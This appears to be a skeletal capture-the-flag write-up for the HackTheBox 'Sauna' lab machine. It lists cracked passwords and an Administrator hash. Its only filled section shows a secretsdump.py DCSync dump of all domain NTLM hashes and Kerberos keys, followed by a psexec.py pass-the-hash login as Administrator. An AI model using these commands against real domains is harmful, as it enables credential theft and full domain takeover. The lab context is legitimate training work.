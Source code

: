 Name & IP Address of Machine:
> SAUNA : `10.10.10.175`
<!-- TOC -->

- [Synopsis](#synopsis)
- [Enumeration](#enumeration)
- [FootHold](#foothold)
- [Lateral Movement](#lateral-movement)
- [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->
## Synopsis
`fsmith:Thestrokes23`
`svc_loanmgr:Moneymakestheworldgoround!`
`Administrator:500:(LM)aad3b435b51404eeaad3b435b51404ee:(NT)d9485863c1e9e05851aa40cbb4ab9dff:::`
## Enumeration
Opened Ports: 
- [ ] .



## FootHold

## Lateral Movement

## Privilege Escalation

```bash
┌──(ircashem)㉿(10.10.14.28)──[~/HackTheBox/sauna]
└─$ secretsdump.py egotistical-bank.local/svc_loanmgr@10.10.10.175                                                                 1 ⨯
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:c69e8e349350c8c4fecb63efc2b70894:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:987e26bb845e57df4c7301753f6cb53fcf993e1af692d08fd07de74f041bf031
Administrator:aes128-cts-hmac-sha1-96:145e4d0e4a6600b7ec0ece74997651d0
Administrator:des-cbc-md5:19d5f15d689b1ce5
krbtgt:aes256-cts-hmac-sha1-96:83c18194bf8bd3949d4d0d94584b868b9d5f2a54d3d6f3012fe0921585519f24
krbtgt:aes128-cts-hmac-sha1-96:c824894df4c4c621394c079b42032fa9
krbtgt:des-cbc-md5:c170d5dc3edfc1d9
EGOTISTICAL-BANK.LOCAL\HSmith:aes256-cts-hmac-sha1-96:5875ff00ac5e82869de5143417dc51e2a7acefae665f50ed840a112f15963324
EGOTISTICAL-BANK.LOCAL\HSmith:aes128-cts-hmac-sha1-96:909929b037d273e6a8828c362faa59e9
EGOTISTICAL-BANK.LOCAL\HSmith:des-cbc-md5:1c73b99168d3f8c7
EGOTISTICAL-BANK.LOCAL\FSmith:aes256-cts-hmac-sha1-96:8bb69cf20ac8e4dddb4b8065d6d622ec805848922026586878422af67ebd61e2
EGOTISTICAL-BANK.LOCAL\FSmith:aes128-cts-hmac-sha1-96:6c6b07440ed43f8d15e671846d5b843b
EGOTISTICAL-BANK.LOCAL\FSmith:des-cbc-md5:b50e02ab0d85f76b
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes256-cts-hmac-sha1-96:6f7fd4e71acd990a534bf98df1cb8be43cb476b00a8b4495e2538cff2efaacba
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes128-cts-hmac-sha1-96:8ea32a31a1e22cb272870d79ca6d972c
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:des-cbc-md5:2a896d16c28cf4a2
SAUNA$:aes256-cts-hmac-sha1-96:e56595f84fdd18dda2c24e00e394af93865e8e776aa2e94293bdfbf32d9d0376
SAUNA$:aes128-cts-hmac-sha1-96:01c707f7304ba1b89687d3f63e43bd07
SAUNA$:des-cbc-md5:2ae5c11ae0a757c4
[*] Cleaning up...
```

```bash
┌──(ircashem)㉿(10.10.14.28)──[~/HackTheBox/sauna]
└─$ psexec.py egotistical-bank.local/Administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff
```
<!-- ## Thank You 
🕉️  -->


<!-- ## Tools Used.
- [ ] . -->